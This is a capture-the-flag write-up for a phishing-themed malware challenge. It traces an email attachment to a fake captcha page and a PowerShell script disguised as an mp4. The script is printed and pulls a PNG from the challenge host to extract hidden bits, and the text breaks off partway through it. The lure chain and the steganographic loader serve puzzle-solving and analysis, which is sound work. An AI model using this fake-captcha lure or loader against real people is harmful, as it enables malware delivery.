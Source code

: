 ### TASK.EML

We received a `RFC 822 mail` file which initially was only 300kb in size and i thought this was going to be a super easy malware challenge but as the description suggests `Is this a rabbit? Or a cat? Or a crabbit.` I knew we might be looking forward to a rabbit hole.

Opening the `.eml` file in VS code , we can see that it has an extremely large base64 encoded string ( 4000 lines ).

![image.png](image.png)

but before that got my interest , I looked at the line above that read  `Check out this cat <a href="[https://verifycert.task.sasc.tf/video/view.html](https://verifycert.task.sasc.tf/video/view.html)">video </a>` so as usual i clicked on the first link i saw which had absolutely nothing on the display but every time when i would reload the page , I would see slight glimpse of the captcha, but I wasn't able to click it which was suspicious but I ignored it because i thought it was just a red herring. 

![themole.gif](themole.gif)

Coming back to the `.eml` file and the big base64 

Decoding the base64 string , we get an image of a rabbit, Indeed this guy is very cute but other than that he had nothing with him that would make him useful to us ( sorry bunny ).

![image.png](image%201.png)

So i decided to check out the webpage we got before , maybe i missed something? Since the captcha was not visible properly the next step ( obviously ) would be to check out the page-source.

It was all normal other than that there’s another link present that reads its a mp4 file [`https://verifycert.task.sasc.tf/video/cat_rabbit.mp4`](https://verifycert.task.sasc.tf/video/cat_rabbit.mp4)  , well maybe we will see a bunny hopping around this time but to my horrors its was a `POWERSHELL` script!!! 

### POWERSHELL.PS1

Quickly opening the `ps1`  file we found that it  was base64 encoded too. 

![image.png](image%202.png)

Decoding it we get a pretty small PowerShell script - 
```powershell
Add-Type -AssemblyName System.Drawing
$wc = New-Object System.Net.WebClient
[byte[]]$bytes = $wc.DownloadData('https://verifycert.task.sasc.tf/flag.png')
$ms = New-Object System.IO.MemoryStream(,$bytes)
$bmp = New-Object System.Drawing.Bitmap($ms)

function BitsToByte {
    param([bool[]]$bits, [int]$startIndex)
    $val = 0
    for ($i = 0; $i -lt 8; $i++) {
        if ($bits[$startIndex + $i]) { $val = $val -bor (1 -shl $i) }
    }
    return [byte]$val
}
$bitList = New-Object 'System.Collections.Generic.List[bool]'
for ($y = 0; $y -lt $bmp.Height; $y++) {
    for ($x = 0; $x -lt $bmp.Width; $x++) {
        $r = $bmp.GetPixel($x, $y).R
        [void]$bitList.Add(($r -band 1))
    }
}
$bits = $bitList.ToArray()
$sizeBytes = 0..3 | ForEach-Object { BitsToByte $bits ($_ * 8) }
```